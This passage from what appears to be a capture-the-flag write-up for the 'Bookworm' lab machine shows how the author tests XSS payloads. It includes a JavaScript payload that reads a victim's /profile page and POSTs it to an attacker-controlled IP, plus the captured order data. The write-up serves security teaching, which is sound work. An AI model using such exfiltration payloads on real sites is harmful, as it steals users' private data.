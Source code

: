 #### Testing

I’m going to have to build a bunch of XSS payloads to get through the next step. To test, there’s a few techniques I found very helpful.

First, I’ll have an order on my profile page poisoned to load JavaScript from my avatar. This allows me to upload new JS, and then refresh my profile and look for errors in the developer tools console.

It’s also very useful to test JavaScript directly in the dev console before trying to put it into XSS payloads. It shows errors and line numbers, catching simple syntax errors.

### XSS / IDOR Enumeration

#### Enumerate Profile

I noted [above](#tech-stack) that the cookies on the site are marked HttpOnly, so exfiling those won’t work. I don’t know of any other sites that might exist, but I could try to enumerate other ports on localhost. Before doing that, I’ll take a look at what these users can see on `bookworm.htb`. I’ll set the `xss` variable in my script to the following to take a look at the user’s profile:

```

fetch('/profile', {credentials: "include"})
.then((resp) => resp.text())
.then((resptext) => {
  fetch("http://10.10.14.6/exfil", {
    method: "POST",
    mode: "no-cors",
    body: resptext
  });
});

```

I’ll listen with `nc` on port 80, and after a couple minutes, what returns is the same as what I see on mine, with different data / orders. The order numbers for the user are very low:

```

  <tbody>
    
    <tr>
      <th scope="row">Order #7</th>
      <td>Fri Dec 23 2022 20:10:04 GMT+0000 (Coordinated Universal Time)</td>
      <td>£34</td>
      <td>
        <a href="/order/7">View Order</
      </td>
    </tr>
    
    <tr>
      <th scope="row">Order #8</th>
      <td>Sun Dec 25 2022 20:10:04 GMT+0000 (Coordinated Universal Time)</td>
      <td>£80</td>
      <td>
        <a href="/order/8">View Order</
      </td>
    </tr>
    
    <tr>
      <th scope="row">Order #9</th>
      <td>Wed Dec 28 2022 20:10:04 GMT+0000 (Coordinated Universal Time)</td>
      <td>£34</td>
      <td>
        <a href="/order/9">View Order</
      </td>
```